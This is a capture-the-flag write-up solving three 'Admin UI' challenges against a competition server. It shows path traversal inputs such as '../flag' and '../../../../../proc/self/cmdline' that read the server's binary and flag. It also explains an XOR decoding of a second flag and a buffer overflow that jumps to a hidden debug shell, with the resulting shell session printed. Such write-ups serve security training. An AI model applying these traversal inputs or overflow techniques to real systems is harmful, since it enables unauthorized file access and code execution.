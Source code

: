 # Admin UI

When we examine patchnotes we can find out that although path traversal vulnerability was patched in v0.2 it was rolled back in v0.3.
Let's try it
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../../../../../proc/self/cmdline
./main
```
So our binary is named `main`. Hopefully we can just print its contents the same way.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../main
```
We have to redirect output to file and then remove unnecessary lines added by this application (menu etc.)
This way we got the copy of the binary running on the server.
When we open it in IDA we can see that the application reads the password from file `flag`. Let's cat it.
```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
Flag: `CTF{I_luv_buggy_sOFtware}`

# Admin UI 2

When we enter the flag from previous level as the password we can see that it's not the end and we have to enter secondary password.
When we analyze it in IDA, we can notice that it only checks if the password has 35 characters (maybe it wasn't intended by creators of this challenge).
Anyway we can the second flag offline. There is `_ZL4FLAG` offset in IDA and it's `const unsigned __int8 FLAG[35]`.
We can also notice that before length check our password is xorred with 0xC7 byte. So maybe if we just xor the flag from memory with this byte we'd get the flag back?
This [script](2nd.py) does it for us.

Flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`

# Admin UI 3

The last part of the series and the most interesting one. We finally get to command execution. Unfortunately there is variable `_ZL13shell_enabled` and it's set to false.
But we can execute some built-in commands. `debug` command prints us a lot of interesing informations about the memory. The most important is `_ZL13cmds_executed` variable and its address. `shell_enabled` is just after it in the memory!
Also there is `echo` command which calls printf with our input as first parameter. This would allow us to perform format string attack.
But there's an easier solution. ASLR is disabled for this binary, so addresses are constant and we don't need to print them at all (we can get it with IDA).
The second vulnerability is buffer overflow. If we send 0x38 times any letter and after that an address of the debug_shell() call (the if branch that would be executed if shell_enabled variable were set to true) the application will return to that address.
[exploit](exploit.py)
When you run the exploit you have to type `quit` twice. And then you have the shell.
```
$ ./exploit.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1

Please enter the backdoo^Wservice password
CTF{I_luv_buggy_sOFtware}
:
! Two factor authentication required !
Please enter secret secondary password
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
:
Authenticated
[*] Switching to interactive mode

> Unknown command ''
> Unknown command 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAICAA'
> Bye!
$ ls -la
total 144
drwxr-xr-x 3 user   user      4096 Jun 18 08:25 .
drwxr-xr-x 3 nobody nogroup   4096 May 25 13:19 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 May 24 15:03 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Jun 18 08:25 flag
-rwxr-xr-x 1 nobody nogroup 111128 Jun 18 08:25 main
drwxr-xr-x 2 nobody nogroup   4096 Jun 18 08:25 patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

Flag: `CTF{c0d3ExEc?W411_pL4y3d}`